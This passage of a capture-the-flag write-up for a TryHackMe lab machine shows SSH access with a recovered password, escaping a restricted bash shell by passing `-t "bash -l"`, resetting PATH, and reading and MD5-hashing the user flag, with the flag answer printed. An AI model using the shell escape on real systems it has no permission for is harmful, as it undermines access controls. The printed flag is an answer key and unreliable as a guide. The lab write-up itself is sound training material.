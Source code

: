 We now have `jeff`'s password and we can connect via SSH. Unfortunately, there is another complexity, we are in a restricted bash (`rbash`) environment, that prevents us from reading the user flag:

~~~
kali@kali:/data/Jeff/files$ ssh jeff@jeff.thm
jeff@tryharder:~$ cat user.txt
-rbash: /usr/lib/command-not-found: restricted: cannot specify `/' in command names
~~~

## Evade the restricted shell (rbash)

After some research on the Internet, I eventually found that appending `-t "bash -l"` to the SSH connection string allows to bypass the restricted bash.

~~~
kali@kali:/data/Jeff/files$ ssh jeff@jeff.thm -t "bash -l"
Warning: Permanently added the ECDSA host key for IP address '10.10.144.133' to the list of known hosts.
jeff@jeff.thm's password: 
jeff@tryharder:~$ ls -l
total 4
-rw-r----- 1 jeff jeff 36 May 11 12:04 user.txt
~~~

After manually defining some paths in the `PATH` environment variable, I was able to eventually read the user flag.

~~~
jeff@tryharder:~$ cat user.txt
Command 'cat' is available in '/bin/cat'
The command could not be located because '/bin' is not included in the PATH environment variable.
cat: command not found
jeff@tryharder:~$ echo $PATH
/home/jeff/.bin
jeff@tryharder:~$ export PATH=/bin:/usr/bin:/usr/sbin:/usr/local/bin
jeff@tryharder:~$ echo $PATH
/bin:/usr/bin:/usr/sbin:/usr/local/bin
jeff@tryharder:~$ cat user.txt
THM{HashMeLikeOneOfYourFrenchGirls}
~~~

I tried to validate the user flag but it failed.

## User flag

The flag seems to be hashed (`HashMeLikeOneOfYourFrenchGirls`) with MD5:

~~~
jeff@tryharder:~$ echo -n "HashMeLikeOneOfYourFrenchGirls" | md5sum
e122d5588956ef9ba7d4d2b2fee00cac  -
~~~

User flag: `THM{e122d5588956ef9ba7d4d2b2fee00cac}`


# Escalate your privileges, whats the root flag?
